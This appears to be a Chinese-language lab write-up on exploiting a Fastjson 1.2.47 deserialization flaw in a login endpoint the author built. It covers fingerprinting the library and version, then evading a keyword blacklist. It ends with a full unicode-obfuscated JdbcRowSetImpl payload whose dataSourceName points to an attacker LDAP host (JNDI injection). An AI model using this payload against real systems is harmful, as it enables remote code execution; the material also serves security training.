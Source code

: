 进入首页，点击登录，
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1696340742216-98ab8e33-40a2-420f-8873-1c37723fd326.png#averageHue=%231b1610&clientId=u32935a5a-49f2-4&from=paste&height=702&id=u057fbb53&originHeight=877&originWidth=1728&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=3044655&status=done&style=none&taskId=u23da4fb0-1ebf-45e9-b3cb-b466b427bf8&title=&width=1382.4)
在登录处抓包，发现为Json格式传入参数：
![](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693192153552-521f193f-9d9a-4db4-ba41-660711b12100.png#averageHue=%23fbfbfb&from=url&id=uUIjl&originHeight=155&originWidth=572&originalType=binary&ratio=1.25&rotation=0&showTitle=false&status=done&style=none&title=)
既然是Json格式自然优先尝试是否是Fastjson。
判断是否为Fastjson：删掉末尾的`}`或添加`"`,使其解析报错。这种情况下就代表后端是解析了这段Json,另一种方法可以使用Dnslog探测。确定后端使用的Fastjson，下一步就是探测具体版本。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1696338224716-94e62dab-b13c-4acd-9205-14373c2141ef.png#averageHue=%23fefcfc&clientId=u46719c6f-761b-4&from=paste&height=188&id=u3f2b5343&originHeight=235&originWidth=1321&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=31789&status=done&style=none&taskId=u7780d62d-789e-4e3c-a08d-c57a177eac5&title=&width=1056.8)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1696338186228-cc190699-bd01-4e16-b6b3-d6981663e14c.png#averageHue=%23fdfdfd&clientId=u46719c6f-761b-4&from=paste&height=172&id=u5517cf1d&originHeight=215&originWidth=1180&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=29810&status=done&style=none&taskId=ucacd91ed-97fd-4f5d-a60b-0bfaac9e9bb&title=&width=944)
探测Fastjson精确版本：
同样也有两种方法，通过报错和Dnslog。
```json
{
  "@type":"java.lang.AutoCloseable"
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1696341570631-5eeaf910-1c2e-46e7-ae0a-494ed0783991.png#averageHue=%23fdfcfc&clientId=u4989e2c4-36bc-4&from=paste&height=198&id=u65e3ff90&originHeight=247&originWidth=1207&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=31736&status=done&style=none&taskId=u22e92992-0b09-4bc2-bf09-9264c1c1162&title=&width=965.6)
从返回的报错可以看到被拦截了。在代码中我将一些会用到的关键字加入了黑名单
![](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693202415687-e471dfa3-15df-4d7a-8703-e98fb94edbba.png#averageHue=%23302c2c&from=url&id=NBynD&originHeight=252&originWidth=1026&originalType=binary&ratio=1.25&rotation=0&showTitle=false&status=done&style=none&title=)
Fastjson本身是默认识别并解码hex和unicode编码的，所以可以利用这个特性绕过。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1696341866517-a6e2fa2d-a0cc-4ee5-9e0c-2f65627e0d48.png#averageHue=%23fefdfd&clientId=u1700d9e7-e7d8-4&from=paste&height=224&id=ufe11e251&originHeight=280&originWidth=1390&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=42042&status=done&style=none&taskId=u4dea1d04-f4a6-4281-9c78-407b5a01732&title=&width=1112)
通过报错，发现版本为1.2.47，很经典的版本漏洞，在这个大版本下存在mappings缓存机制通杀绕过。
后面的利用就和上个实验一致了，只需该一下编码即可。
```json
{
    "a":{
        "\u0040\u0074\u0079\u0070\u0065":"\u006A\u0061\u0076\u0061\u002E\u006C\u0061\u006E\u0067\u002E\u0043\u006C\u0061\u0073\u0073",
        "\u0076\u0061\u006C":"\u0063\u006F\u006D\u002E\u0073\u0075\u006E\u002E\u0072\u006F\u0077\u0073\u0065\u0074\u002E\u004A\u0064\u0062\u0063\u0052\u006F\u0077\u0053\u0065\u0074\u0049\u006D\u0070\u006C"
    },
    "b":{
        "\u0040\u0074\u0079\u0070\u0065":"\u0063\u006F\u006D\u002E\u0073\u0075\u006E\u002E\u0072\u006F\u0077\u0073\u0065\u0074\u002E\u004A\u0064\u0062\u0063\u0052\u006F\u0077\u0053\u0065\u0074\u0049\u006D\u0070\u006C",
        "\u0064\u0061\u0074\u0061\u0053\u006F\u0075\u0072\u0063\u0065\u004E\u0061\u006D\u0065":"\u006C\u0064\u0061\u0070\u003A\u002F\u002F\u0031\u0039\u0032\u002E\u0031\u0036\u0038\u002E\u0030\u002E\u0031\u0030\u0035\u003A\u0031\u0033\u0038\u0039\u002F\u007A\u006B\u0070\u0069\u0078\u0061",
        "\u0061\u0075\u0074\u006F\u0043\u006F\u006D\u006D\u0069\u0074":"\u0074\u0072\u0075\u0065"
    }
}
```
![](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693203450654-e122bf7e-7f4f-4c33-ab7c-a5ba0f789b53.png?x-oss-process=image%2Fresize%2Cw_937%2Climit_0#averageHue=%234f5762&from=url&id=Rv8mU&originHeight=141&originWidth=937&originalType=binary&ratio=1.25&rotation=0&showTitle=false&status=done&style=none&title=)
